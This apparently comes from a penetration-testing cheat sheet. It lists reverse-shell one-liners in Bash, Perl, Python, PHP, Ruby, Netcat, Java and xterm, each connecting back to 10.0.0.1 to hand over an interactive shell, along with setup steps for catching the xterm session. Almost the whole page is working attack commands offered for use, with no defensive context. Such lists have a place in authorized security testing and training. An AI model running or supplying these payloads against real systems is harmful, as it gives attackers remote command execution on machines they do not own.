 Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

There’s also an alternative PERL revere shell here.

Python
This was tested under Linux / Python 2.7:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

`nc -e /bin/sh 10.0.0.1 1234`

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

`xterm -display 10.0.0.1:1`

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
